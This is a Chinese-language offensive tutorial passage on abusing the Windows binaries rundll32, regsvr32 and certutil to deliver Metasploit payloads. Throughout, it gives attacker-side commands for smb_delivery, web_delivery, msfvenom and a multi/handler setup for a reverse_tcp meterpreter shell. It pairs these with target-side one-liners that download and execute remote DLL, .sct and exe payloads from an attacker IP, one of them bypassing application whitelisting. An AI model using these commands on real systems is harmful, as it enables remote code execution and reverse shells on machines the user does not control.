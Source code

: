 **Rundll32.exe**

Rundll32.exe 与 Windows 操作系统相关联，可调用从 DLL（16位或32位）导出的函数并将其存储在适当的内存库中。

Metasploit 还包含“ SMB Delivery”模块，该模块生成恶意的 dll 文件。该模块通过 SMB 服务器提供有效负载，并提供检索和执行生成的有效负载的命令。当前支持 DLL 和 Powershell。

攻击端
```bash
use exploit/windows/smb/smb_delivery
set srvhost 192.168.1.109
set lhost 192.168.1.109
exploit
```
目标端
```cmd
rundll32.exe \\192.168.1.109\vabFG\test.dll,0
```

**Regsvr32.exe**

Regsvr32 是一个命令行实用程序，用于注册和注销 OLE 控件，例如 Windows 注册表中的 DLL 和 ActiveX 控件。Windows XP 和更高版本的 Windows 的 ％systemroot％\ System32 文件夹中安装了 Regsvr32.exe。

Regsvr32使用 “squablydoo” 技术绕过应用程序白名单。签名的 Microsoft 二进制文件 Regsvr32 可以请求一个 .sct 文件，然后在其中执行包含的 PowerShell 命令。这两个 Web 请求（即 .sct 文件和 PowerShell 下载/执行）都可以在同一端口上发生。“PSH(Binary)”将向磁盘写入文件，允许下载/执行自定义二进制文件。

攻击端
```bash
use exploit/multi/script/web_delivery
set target 3
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.109
set srvhost 192.168.1.109
exploit
```
目标端
```bash
regsvr32 /s /n /u /i:http://192.168.1.109:8080/xo31Jt5dIF.sct scrobj.dll
```

**Certutil.exe**

Certutil.exe 是作为证书服务的一部分安装的命令行程序。我们可以使用此工具在目标计算机上执行恶意 exe 文件，以获取 meterpreter 程序会话。

攻击端
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f exe > shell.exe
python -m SimpleHTTPServer 80
```
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.109
set lport 1234
exploit
```
目标端
```bash
certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe
```
